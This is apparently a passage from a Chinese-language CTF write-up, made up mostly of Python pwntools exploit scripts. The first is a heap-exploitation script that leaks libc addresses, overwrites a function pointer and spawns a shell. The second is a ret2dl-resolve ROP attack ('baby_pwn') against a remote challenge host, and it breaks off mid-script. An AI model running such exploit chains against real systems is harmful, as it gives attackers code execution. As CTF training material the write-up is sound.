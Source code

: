 ```python
add(0x100, 'a' * 8)#0
add(0x100, 'a' * 8)#2

r.sendline(str(1))
r.recvuntil("aaaaaaaa")
heap = u64(r.recvuntil("1 :")[:-3].ljust(8,'\0')) - 0x220
r.recvuntil("aaaaaaaa")
libc = u64(r.recvuntil("3 :")[:-3].ljust(8,'\0')) - 0x3c4b78

print "heap: " + hex(heap)
print "libc: " + hex(libc)

remove(0)
remove(1)
remove(2)
remove(3)

add(0x60, p64(heap + 0x30) * 2 + p64(0) + p64(0x51))#0
add(0x20, 'a')#1
add(0x50, 'a')#2
add(0x20, 'a')#3
remove((heap + 0x18 - ptr - 8) / 0x10)
edit(0, p64(0) * 3 + p64(0x51) + p64(ptr + 0x18))
remove(1)
add(0x40, 'a')#1
add(0x40, 'a')#4
edit(4, p64(ptr))
edit(2, p64(0x100) + p64(ptr) + p64(0) * 4)
edit(0, p64(0x100) + p64(ptr) + p64(0x100) + p64(libc + 0x3c67a8) + p64(0x100) + p64(libc + 0x18cd57))
edit(1, p64(libc + 	0x045390))

#gdb.attach(r)
r.sendline(str(4))
r.recvuntil("of daily:")
r.sendline(str(2))

r.interactive()
```



##	baby_pwn

`ret2dl in x86`,没有可供`leak`的函数.保护很少,想起之前的`0ctf2018 babystack`,修改脚本直接打,成功.

```python
import sys
import roputils
from pwn import *

context.log_level = 'debug'
#r = process("./pwn")
r = remote("c346dfd9093dd09cc714320ffb41ab76.kr-lab.com", "56833")

rop = roputils.ROP('./pwn')
addr_bss = rop.section('.bss')

buf1 = 'A' * 0x2c
buf1 += p32(0x8048390) + p32(0x804852D) + p32(0) + p32(addr_bss) + p32(100)
r.send(buf1)

buf2 =  rop.string('/bin/sh')
buf2 += rop.fill(20, buf2)
```